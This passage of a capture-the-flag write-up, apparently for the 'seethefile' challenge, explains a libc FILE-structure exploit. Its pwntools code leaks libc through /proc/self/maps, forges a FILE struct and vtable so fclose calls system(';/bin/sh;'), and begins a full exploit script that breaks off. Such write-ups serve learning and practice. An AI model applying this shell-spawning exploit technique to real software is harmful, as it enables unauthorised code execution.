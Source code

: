 - Create a valid pointer at `&fp`
- Make that pointer point to the buffer we control
- Place 0xFFFFDFFF in that location to skip the `_IO_IS_FILEBUF` conditional and
  skip the file lock functions.
- Send the program somewhere.

### The Exploit

Okay So there's a lot of stuff to do here. This is how I created the payload.
I started by leaking libc by reading a file on the file system `/proc/self/maps`.
This file contains the addresses of different memory sections of the program.

```python
p.recvuntil(b"Your choice :") # Skip menu
p_open(p, b"/proc/self/maps") # Open the file
p_read(p)                     # Read first 400 bytes
p_read(p)                     # Read next 400 bytes because first 400 was not enough
stuff = p_write(p)            
x = stuff[1][0:8]             # Pull the libc address
libc_start = int(x,16)        # Convert to int
```

We can run this on the remote server to get the address of `_LIBC_start_main`.
Then it's just putting all these concepts together into a full payload.

```python
libc.address = libc_start         # Set libc address in pwntools
system = libc.symbols['system']   # Find system()
name = elf.symbols['name']        # Find my buffer
file = elf.symbols['filename']    # Grab a section of empty memory
payload = p32(0xFFFFDFFF)         # Begin payload with filebuf pass.
payload += b';/bin/sh;'           # Something for system() to actually call
payload += b"A"*(32-len(payload)) # Random chars to fill space from the struct
payload += p32(name)              # Overwrite &fp with our buffer
payload += b'`'                   # name pointer sometimes breaks w/o this
payload += b"B"*(72-len(payload)) # filling space in the file struct
payload += p32(file+0x20)         # Point this to NULL val (gets dereferenced)
payload += p32(name+0x48)         # This is the pointer to the vtable 
payload += p32(system)            # Create the _IO_finish_t function
p_exit(p, payload)                # Send the payload as we exit.
```

So what this essentially does is create multiple structures in memory. We have
the function pointer `&fp` which passes all the checks. Then we have the `*vtable`
which holds our `system()` pointer. `fclose()` in libc calls with `&fp` as a
parameter. This is why we have `;/bin/sh;` after our null value. System will try
to call the first value. When it fails, it will continue on to the next agument.
Here's my full script for reference:

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./seethefile_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.terminal = ['tmux', 'splitw', '-h']
context.binary = elf
debug_script = '''
b fclose

'''

def conn():
    if not args.REMOTE:
```